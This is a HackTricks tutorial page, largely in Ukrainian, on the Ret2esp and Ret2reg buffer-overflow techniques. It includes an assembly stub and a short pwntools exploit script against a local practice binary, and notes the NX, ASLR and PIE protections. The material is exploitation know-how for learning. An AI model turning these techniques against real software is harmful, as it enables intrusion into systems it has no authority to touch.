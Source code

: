 # Ret2esp / Ret2reg

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Ret2esp**

**Оскільки ESP (вказівник стеку) завжди вказує на верхню частину стеку**, ця техніка полягає в заміні EIP (вказівник інструкцій) на адресу інструкції **`jmp esp`** або **`call esp`**. Таким чином, shellcode розміщується безпосередньо після переписаного EIP. Коли виконується інструкція `ret`, ESP вказує на наступну адресу, точно там, де зберігається shellcode.

Якщо **випадкове розташування адресного простору (ASLR)** не активовано в Windows або Linux, можна використовувати інструкції `jmp esp` або `call esp`, знайдені в спільних бібліотеках. Однак, з активним [**ASLR**](../common-binary-protections-and-bypasses/aslr/), можливо, доведеться шукати ці інструкції безпосередньо в уразливій програмі (і вам, можливо, потрібно буде подолати [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Більше того, можливість розмістити shellcode **після корупції EIP**, а не посередині стеку, забезпечує, що будь-які інструкції `push` або `pop`, виконувані під час роботи функції, не заважатимуть shellcode. Це завадження може статися, якщо shellcode буде розміщено посередині стеку функції.

### Нестача місця

Якщо вам не вистачає місця для запису після переписування RIP (можливо, лише кілька байтів), запишіть початковий shellcode `jmp`, наприклад:
```armasm
sub rsp, 0x30
jmp rsp
```
І запишіть shellcode на початку стеку.

### Приклад

Ви можете знайти приклад цієї техніки в [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) з фінальним експлойтом, як:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
## Ret2reg

Аналогічно, якщо ми знаємо, що функція повертає адресу, де зберігається shellcode, ми можемо використовувати інструкції **`call eax`** або **`jmp eax`** (відомі як техніка **ret2eax**), що пропонує ще один спосіб виконати наш shellcode. Так само, як eax, **будь-який інший регістр**, що містить цікаву адресу, може бути використаний (**ret2reg**).

### Example

You can find an example here: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Protections

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): Якщо стек не є виконуваним, це не допоможе, оскільки нам потрібно помістити shellcode в стек і стрибнути, щоб виконати його.
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Це може ускладнити пошук інструкції для стрибка до esp або будь-якого іншого регістру.

## References

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

